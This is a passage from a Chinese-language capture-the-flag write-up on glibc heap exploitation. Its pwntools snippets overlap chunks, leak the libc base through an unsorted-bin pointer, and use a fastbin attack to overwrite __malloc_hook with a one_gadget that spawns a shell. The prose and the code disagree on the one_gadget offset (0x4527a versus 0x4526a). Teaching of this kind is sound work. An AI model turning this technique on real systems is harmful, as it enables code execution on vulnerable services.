 ```pyhton
alloc(0x10)
alloc(0x10)
```

可是原本的chunk4没有被free啊，怎么我们又有了一个chunk4？确实如此，现在index 2和4指向的都是chunk4。这是很多堆题泄露地址的关键，让多个指针指向同一个chunk，这样在其中一个指针被free后chunk所得到的重要信息可以被另一个指针获取。chunk4本来就属于unsorted bin，让我们把它的size改回来，接着free，就能将其放入unsorted bin。

```python
payload = p64(0)*3
payload += p64(0x91)
fill(3, payload)
alloc(0x80)
free(4)

libc_base = u64(dump(2)[:8].strip().ljust(8, b"\x00"))-0x3c4b78
log.info("libc_base: "+hex(libc_base))
```

做了这么多就是为了把chunk4放进unsorted bin？因为我们需要[利用unsorted bin泄露地址](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/unsorted-bin-attack/)。

- unsortbin 有一个特性，就是如果 usortbin 只有一个 bin ，它的 fd 和 bk 指针会指向同一个地址(unsorted bin 链表的头部），这个地址为 main_arena + 0x58 ，而且 main_arena 又相对 libc 固定偏移 0x3c4b20 ，
所以我们得到fd的值，然后再减去0x58再减去main_arena相对于libc的固定偏移，即得到libc的基地址。所以我们需要把 chunk 改成大于 fastbin 的大小，这样 free 后能进入 unsortbin 让我们能够泄露 libc 基址。同时free(4)前还要alloc一个chunk，让top chunk在chunk4被free时不会互相合并。

现在chunk4的fd中有着我们想要的main_arena地址。这个信息只有在chunk4被free后才会出现，正常只有一个指针指向chunk4的情况下是不可能能泄露地址的，但是我们让index 2也指向了chunk4！回忆chunk结构，一个chunk的content域和fd是重叠的，是什么仅取决于是不是free状态。现在chunk4 free了，dump(2)打印chunk4的content，其实就是它的fd，得到main_arena，从而算出基地址。

接下来我们alloc(0x60)，输入fastbin范围，因为unsorted bin中有更大的chunk，所以程序会把刚刚free掉的chunk4切出0x60的大小分配给我们。这是我们至此alloc的第6个chunk，叫chunk6，因为其索引还是4，不能再用索引命名了。然后free(4)其实是free chunk6，使其加入fastbin链表。编辑索引2即chunk2时可以更改其fd。

```python
alloc(0x60)
free(4)
```

最后一步，更改__malloc_hook为one_gadget。根据wp截图找一下__malloc_hook在哪和其周围的内存，选一个靠近__malloc_hook的地方分配。不过这个地方有讲究，为了绕过malloc的检测，要利用字节错位使size位在fastbin范围内。最后发现0x7fd25e3b7aed，0x7f正好。算出该地址对libc的基址的偏移是0x3c4aed。fill(2,payload)修改chunk6的fd，第一个allocate(0x60)会得到chunk6，第二个allocate就能拿到chunk6的fd所指向的位置了。此时所指位置的索引是6，编辑6即可编辑__malloc_hook的内存。

```python
payload = p64(libc_base+0x3c4aed)
fill(2, payload)
 
alloc(0x60)
alloc(0x60)
```

把__malloc_hook改成one_gadget（libc_base+0x4527a），p8(0)\*3和p64(0)\*2用来内存对齐。最后再alloc即可getshell。

```python
payload = p8(0)*3
payload += p64(0)*2
payload += p64(libc_base+0x4526a)
fill(6, payload)
 
alloc(255)
 
p.interactive()
```